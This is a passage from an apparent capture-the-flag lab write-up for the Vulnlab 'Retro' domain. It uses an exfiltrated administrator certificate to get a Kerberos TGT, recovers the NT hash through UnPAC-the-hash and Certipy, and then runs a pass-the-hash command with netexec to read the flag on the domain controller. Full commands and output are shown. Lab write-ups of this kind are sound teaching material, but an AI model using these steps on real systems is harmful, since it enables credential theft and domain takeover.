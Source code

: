 We can use the technique UnPAC the hash to get the NTLM hash using the <a target="_blank" href="https://github.com/dirkjanm/PKINITtools">PKINITtools</a>.

First we need to retrieve the TGT and the AS-REP encryption key.

```
syl@sylsec:~/vulnlab/Retro/temp$ gettgtpkinit -cert-pfx ../exfiltrated/administrator.pfx -dc-ip 10.10.113.62 retro.vl/administrator ../exfiltrated/administrator.ccache 
2023-12-19 20:53:00,328 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-12-19 20:53:00,802 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2023-12-19 20:53:00,889 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-12-19 20:53:00,889 minikerberos INFO     23f920ec14a57021c38d9c8c806ce53929774cf8a79d23049587624d2b7378ec
INFO:minikerberos:23f920ec14a57021c38d9c8c806ce53929774cf8a79d23049587624d2b7378ec
2023-12-19 20:53:00,895 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Then we can use the `getnthash.py` to retrieve the NTLM hash.

```
syl@sylsec:~/vulnlab/Retro/exfiltrated$  getnthash retro.vl/administrator -key 23f920ec14a57021c38d9c8c806ce53929774cf8a79d23049587624d2b7378ec   
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
25....<hash>
```

# Using Certipy Method #2

```
syl@sylsec:~/vulnlab/Retro$ certipy auth -pfx ./exfiltrated/administrator.pfx -dc-ip '10.10.64.243' -username 'administrator' -domain retro.vl
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:25<hash>
```

Then we can use that that hash for PTH (Pass the hash) attack.

```
syl@sylsec:~/vulnlab/Retro$ netexec smb 10.10.64.243 -u administrator -H 252fac7066d93dd009d4fd2cd0368389 -x "cmd /c type C:\Users\Administrator\Desktop\root.txt"
SMB         10.10.64.243    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.243    445    DC               [+] retro.vl\administrator:252fac7066d93dd009d4fd2cd0368389 (Pwn3d!)
SMB         10.10.64.243    445    DC               [+] Executed command via wmiexec
SMB         10.10.64.243    445    DC               VL{<hash>}
```